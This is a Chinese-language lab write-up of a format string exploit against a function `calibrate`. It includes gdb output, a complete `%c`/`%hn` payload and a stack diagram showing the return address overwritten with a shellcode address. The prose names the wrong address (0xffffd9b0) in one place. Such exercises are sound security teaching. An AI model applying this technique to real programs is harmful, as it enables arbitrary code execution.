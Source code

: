 ## Main Idea

在函数`calibrate`中，`buf`作为格式化字符串传入了`printf`中。如果传入的字符串包含占位符，那么将会出发格式化字符串漏洞。我们通过构造特定的格式化字符串来修改返回地址。

首先，我们必须想办法把将`printf`的参数指针移到`buf`的开头；接下来，我们要想办法把SHELLCODE的地址写入`eip`中

## Magic Numbers

根据提示，首先获取SHELLCODE的地址，查看`exploit`可知SHELLCODE被作为命令函参数传递：
```
(gdb) x &argv[1]
0xffffdad8:     0xffffdbf0
```

进入函数`calibrate`中，我们要获取`buf`的起始地址和`calibrate`的返回地址：
```
(gdb) p &buf
$2 = (char **) 0xffffd9b0
```
```
(gdb) i f
Stack level 0, frame at 0xffffd9b0:
 eip = 0x80491eb in calibrate (calibrate.c:7); saved eip = 0x804928f
 called by frame at 0xffffda60
 source language c.
 Arglist at 0xffffd9a8, args: buf=0xffffd9c0 ""
 Locals at 0xffffd9a8, Previous frame's sp is 0xffffd9b0
 Saved registers:
  ebp at 0xffffd9a8, eip at 0xffffd9ac
```

我们还要找到`printf`的参数指针，进入`printf`然后打印出来：
```
(gdb) s
printf (fmt=0xffffd9c0 "AAAA\254\331\377\377AAAA\256\331\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%56273u%hn%9231u%hn\n") at src/stdio/printf.c:8
8       src/stdio/printf.c: No such file or directory.
```
```
(gdb) p &fmt
$3 = (const char * restrict *) 0xffffd980
```

接下来计算要把`&fmt`移动多远，即`0xffffd9b0 - (0xffffd980 + 4) = 0x4b = 60`。根据提示我们用`%c`来跳过栈上的参数，每输出一个参数，参数指针就会往上走一格。根据上面的结果我们需要15个`%c`，这是因为栈上按字为单位。

完成上一步后，参数指针会指向`buf`了。这时候我们就需要将SHELLCODE地址写入`eip`。这一操作通过`%hn`实现。根据提示，我们把地址`0xffffd9b0`拆分成两部分输入。我们需要分别确定这两部分各需要输出多少字符。

- 第二部分`0xd9b0`需要输出`0xd9b0`个字符，在刚才的移动中，我们已经输出了31个字符，因此还需要输入(SECOND_HALF - 31)个字符。

- 由于第二部分已经输出了`0xd9b0`个字符，因此第一部分`0xffff`还需要输出`0xffff - 0xd9b0`个字符，即(FIRST_HALF - SECOND_HALF)。

## Exploit Structure

```
[       buf         ]               [0xffffd9b0]
[   eip of clibrate ]               [0xffffd9ac]
[   ebp of clibrate ]               [0xffffd9a8]
[       ???         ]               [0x????????]
[        f          ]               [0xffffd99c]
[       ???         ]               [0x????????]  
[       fmt         ]               [0xffffd980]
[   eip of printf   ]               [0xffffd97c]
```

1. 为`%hn`填充参数，注意需要先填充垃圾用来消耗`%__u`。填充的参数即为要写入的目的地址(calibrate eip)。
2. 将参数指针移动到`buf`起始处。
3. 计算要输出的字节数，以便把SHELLCODE的地址写入目的地址(calibrate eip)。

## Exploit GDB Output

进行爆破前：
```
(gdb) x 0xffffd9ac
0xffffd9ac:     0x0804928f
```

进行爆破后：
```
(gdb) x 0xffffd9ac
0xffffd9ac:     0xffffdbf0
```
